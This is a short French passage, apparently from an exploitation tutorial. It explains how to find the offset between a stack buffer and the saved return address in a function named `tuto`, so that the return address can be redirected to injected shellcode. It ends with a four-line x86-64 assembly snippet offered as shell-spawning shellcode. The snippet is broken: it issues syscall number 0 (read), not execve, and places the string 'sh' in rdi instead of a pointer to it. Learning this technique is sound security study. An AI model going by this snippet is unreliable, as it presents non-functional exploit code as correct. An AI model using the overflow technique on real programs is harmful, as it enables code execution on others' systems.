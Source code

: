 On se positionne dans le corps d'exécution de la fonction `tuto`, puis on détermine l'offset entre le buffer et `saved rip`, _ie._ l'adresse de retour à substituer par l'adresse du buffer, lequel conctiendra le shell code injecté.

```asm
xor rax, rax
imul rax, rsi
mov rdi, "sh\0\0"
syscall
```
